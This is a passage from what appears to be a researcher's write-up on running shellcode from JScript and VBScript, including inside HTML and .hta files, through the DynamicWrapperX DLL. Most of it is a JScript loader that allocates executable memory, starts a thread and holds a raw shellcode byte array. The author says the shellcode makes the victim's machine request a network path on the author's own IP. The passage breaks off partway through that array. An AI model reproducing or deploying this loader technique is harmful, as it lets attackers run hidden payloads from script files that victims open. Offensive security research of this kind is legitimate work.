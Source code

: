 [https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vba](https://github.com/OsandaMalith/Shellcodes/blob/master/CreateFile/CreateFile.vba)

## Shellcode Inside VBS and JS

subTee has done many kinds of research with JS and DynamicWrapperX. You can find a POC using the DynamicWrapperX DLL.\
[http://subt0x10.blogspot.com/2016/09/shellcode-via-jscript-vbscript.html](http://subt0x10.blogspot.com/2016/09/shellcode-via-jscript-vbscript.html)\
Based on that I have ported the shellcode to JS and VBS. The fun part is we can embed shellcode in JScript or VBScript inside html and .hta formats.\
Note the following shellcode directs to my IP.

#### JScript

```javascript
/*
 * Author : Osanda Malith Jayathissa (@OsandaMalith)
 * Title: Shellcode to request a non-existing network path
 * Website: https://osandamalith.com
 * Shellcode : https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html
 * Based on subTee's JS: https://gist.github.com/subTee/1a6c96df38b9506506f1de72573ceb04
 */
DX = new ActiveXObject("DynamicWrapperX"); 
DX.Register("kernel32.dll", "VirtualAlloc", "i=luuu", "r=u");
DX.Register("kernel32.dll","CreateThread","i=uullu","r=u" );
DX.Register("kernel32.dll", "WaitForSingleObject", "i=uu", "r=u");

var MEM_COMMIT = 0x1000;
var PAGE_EXECUTE_READWRITE = 0x40;

var sc = [
0xe8, 0xff, 0xff, 0xff, 0xff, 0xc0, 0x5f, 0xb9, 0x55, 0x03, 0x02, 0x02, 0x81, 0xf1, 0x02, 0x02, 0x02, 0x02, 0x83, 0xc7,
0x1d, 0x33, 0xf6, 0xfc, 0x8a, 0x07, 0x3c, 0x05, 0x0f, 0x44, 0xc6, 0xaa, 0xe2, 0xf6, 0xe8, 0x05, 0x05, 0x05, 0x05, 0x5e,
0x8b, 0xfe, 0x81, 0xc6, 0x29, 0x01, 0x05, 0x05, 0xb9, 0x02, 0x05, 0x05, 0x05, 0xfc, 0xad, 0x01, 0x3c, 0x07, 0xe2, 0xfa,
0x56, 0xb9, 0x8d, 0x10, 0xb7, 0xf8, 0xe8, 0x5f, 0x05, 0x05, 0x05, 0x68, 0x31, 0x01, 0x05, 0x05, 0xff, 0xd0, 0xb9, 0xe0,
0x53, 0x31, 0x4b, 0xe8, 0x4e, 0x05, 0x05, 0x05, 0xb9, 0xac, 0xd5, 0xaa, 0x88, 0x8b, 0xf0, 0xe8, 0x42, 0x05, 0x05, 0x05,
0x6a, 0x05, 0x68, 0x80, 0x05, 0x05, 0x05, 0x6a, 0x03, 0x6a, 0x05, 0x6a, 0x01, 0x68, 0x05, 0x05, 0x05, 0x80, 0x68, 0x3e,
0x01, 0x05, 0x05, 0xff, 0xd0, 0x6a, 0x05, 0xff, 0xd6, 0x33, 0xc0, 0x5e, 0xc3, 0x33, 0xd2, 0xeb, 0x10, 0xc1, 0xca, 0x0d,
0x3c, 0x61, 0x0f, 0xbe, 0xc0, 0x7c, 0x03, 0x83, 0xe8, 0x20, 0x03, 0xd0, 0x41, 0x8a, 0x01, 0x84, 0xc0, 0x75, 0xea, 0x8b,
0xc2, 0xc3, 0x8d, 0x41, 0xf8, 0xc3, 0x55, 0x8b, 0xec, 0x83, 0xec, 0x14, 0x53, 0x56, 0x57, 0x89, 0x4d, 0xf4, 0x64, 0xa1,
0x30, 0x05, 0x05, 0x05, 0x89, 0x45, 0xfc, 0x8b, 0x45, 0xfc, 0x8b, 0x40, 0x0c, 0x8b, 0x40, 0x14, 0x89, 0x45, 0xec, 0x8b,
0xf8, 0x8b, 0xcf, 0xe8, 0xd2, 0xff, 0xff, 0xff, 0x8b, 0x70, 0x18, 0x8b, 0x3f, 0x85, 0xf6, 0x74, 0x4f, 0x8b, 0x46, 0x3c,
0x8b, 0x5c, 0x30, 0x78, 0x85, 0xdb, 0x74, 0x44, 0x8b, 0x4c, 0x33, 0x0c, 0x03, 0xce, 0xe8, 0x96, 0xff, 0xff, 0xff, 0x8b,
0x4c, 0x33, 0x20, 0x89, 0x45, 0xf8, 0x33, 0xc0, 0x03, 0xce, 0x89, 0x4d, 0xf0, 0x89, 0x45, 0xfc, 0x39, 0x44, 0x33, 0x18,
0x76, 0x22, 0x8b, 0x0c, 0x81, 0x03, 0xce, 0xe8, 0x75, 0xff, 0xff, 0xff, 0x03, 0x45, 0xf8, 0x39, 0x45, 0xf4, 0x74, 0x1c,
0x8b, 0x45, 0xfc, 0x8b, 0x4d, 0xf0, 0x40, 0x89, 0x45, 0xfc, 0x3b, 0x44, 0x33, 0x18, 0x72, 0xde, 0x3b, 0x7d, 0xec, 0x75,
0x9c, 0x33, 0xc0, 0x5f, 0x5e, 0x5b, 0xc9, 0xc3, 0x8b, 0x4d, 0xfc, 0x8b, 0x44, 0x33, 0x24, 0x8d, 0x04, 0x48, 0x0f, 0xb7,
```